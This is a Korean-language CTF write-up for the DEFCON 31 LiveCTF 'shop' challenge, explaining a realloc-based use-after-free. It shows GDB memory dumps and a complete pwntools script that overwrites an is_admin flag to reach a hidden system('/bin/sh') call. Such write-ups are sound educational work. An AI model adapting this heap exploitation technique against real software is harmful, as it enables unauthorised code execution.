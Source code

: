 +++
title = "DEFCON 31 LiveCTF - shop"
date = "2024-07-16"
description = "DEFCON 31 LiveCTF pwnable challenge"

[taxonomies]
tags = ["ctf", "pwnable", "uaf"]
+++
## 0x00. Introduction

``` bash
[*] '/home/user/uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Structures

``` c
struct credential {
    char is_admin;      // alignment 때문에 어차피 8바이트를 차지
    struct shelf *shelf_ptr;
    char *username;
    char *password;
    struct credential *next_cred;
}

struct shelf {
    long count;
    struct item *item_ptr;
}

struct item {
    long number;
    long price;
    char *name;
    char *description;
}
```

### Goal

``` c
unsigned __int64 hidden_1C83()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  if ( LOBYTE(login_info_4108->is_admin) )
    system("/bin/sh");
  else
    puts("Not an admin");
  return v1 - __readfsqword(0x28u);
}
```

로그인 이후의 메뉴에서 7번을 선택하면 호출되는 숨겨진 `hidden_1C83()`이 존재한다.

여기에서 `login_info`의 첫 바이트, 즉 `is_admin`의 값이 0이 아니면 쉘을 띄워준다.

## 0x01. Vulnerability

``` c
unsigned __int64 add_item_1357()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count + 1));
      if ( tmp )
      {
        ++shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
        memcpy(&shelf_ptr->item_ptr[shelf_ptr->count - 1], &selected, sizeof(shelf_ptr->item_ptr[shelf_ptr->count - 1]));
      }
  ...
}

unsigned __int64 remove_item_14B6()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count - 1));
      if ( tmp )
      {
        --shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
      }
      else
      {
        puts("Error removing item");
      }
  ...
}
```

`add_item_1357()`에서 item을 추가하면 `item_ptr`에 힙 영역이 할당된다.

이것을 `remove_item_14B6()`에서 item을 삭제할 때 청크 사이즈만 줄여서 재할당하는데 사이즈가 0이 됐을 때 `realloc()`에서 `NULL`이 리턴된다.

그런데 `item_ptr`의 값이 초기화되지 않고 그대로 남아있고, 삭제 이후 다시 `add_item_1357()`을 호출할 때 해제된 영역에 접근이 가능하기 때문에 UAF 취약점이 존재한다.

## 0x02. Exploit

``` c
unsigned __int64 open_account_1932()
{
  ...
      tmp = malloc(0x28uLL);
      LOBYTE(tmp->is_admin) = 0;
  ...
}
```

`open_account_1932()`를 보면 계정을 생성하고 바로 `is_admin`을 0으로 만든다.

따라서 A 계정을 만들고 item을 추가 후 삭제하여 해제된 영역을 B 계정의 `credential` 구조체가 가리키도록 exploit을 구성했다.

-   open_account A
-   add_item 1
-   remove_item 0
-   logout
-   open_account B

이러한 순서로 페이로드를 작성해서, A의 `item_ptr`과 B의 `credential`이 같은 영역에 위치하게 만들 수 있고,

-   login as A
-   add_item 2

다시 A로 로그인한 후에 item을 추가해서 `item.number`를 복사하는 과정에서 `is_admin`이 덮이는 시나리오를 생각했으나...

``` bash
# Credential of B - BEFORE
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555500      0x00005555555593a0
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000

# Credential of B - AFTER
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555559      0x4ec540a62b019163
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000
```

쉘이 떨어져서 실제 값이 잘 덮였는지 확인해보니 `item.number`가 아닌 엉뚱한 값으로 덮여있었다.

그래서 다시 면밀하게 디버깅을 해본 결과 `memcpy` 부분이 아니라 `realloc` 부분에서 값이 변경되는 것을 확인했다.

곰곰이 생각해보니 다음과 같은 문제가 있었다.

1.  `remove_item_14B6()`에서 `realloc()`이 `NULL`을 리턴해서 `item_ptr` 초기화는 물론 `count` 값도 작아지지 않음
2.  다시 `add_item_1357()`를 하는 과정에서 `count` 값이 아직 1이므로 0x40만큼 `realloc()`을 요청함
3.  사이즈도 맞지 않거니와 B의 `credential`이 있는 영역은 다시 `free`된 적도 없기 때문에 아예 다른 영역이 할당됨

결과적으로는 `realloc` 과정에서 뭔가 dummy 데이터가 쓰여지면서 `is_admin`이 덮이게 되어 다행히 exploit이 성공한다.

솔직히 이게 intended solution인지 잘 모르겠다... ㅋㅋㅋㅋ

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

BINARY = "uaf"
LIBRARY = "libc.so.6"

code_base = 0x0000555555554000
bp = {
    'main' : code_base + 0x1DC7,
    'open_account' : code_base + 0x1932,
    'hidden' : code_base + 0x1C83,
}

gs = f'''
b *{bp['open_account']}
b *{bp['hidden']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def menu(s, inputs: list) :
    for i in range(len(inputs)):
        r = s.recvuntil(b': ').decode()
        if i == 0:
            print(r.split('\n')[int(inputs[i]) - 1])
        s.sendline(inputs[i].encode())
    return

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    menu(s, ['2', 'aaaa', '1111'])  # open_account of A
    menu(s, ['2', '1'])             # add_item 1
    menu(s, ['3', '0'])             # remove_item 0
    menu(s, ['5'])                  # logout
    menu(s, ['2', 'bbbb', '2222'])  # open_account of B
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'aaaa', '1111'])  # login as A
    menu(s, ['2', '2'])             # add_item 2
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'bbbb', '2222'])  # login as B
    menu(s, ['7'])                  # hidden
    s.interactive()

if __name__=='__main__':
    main()
```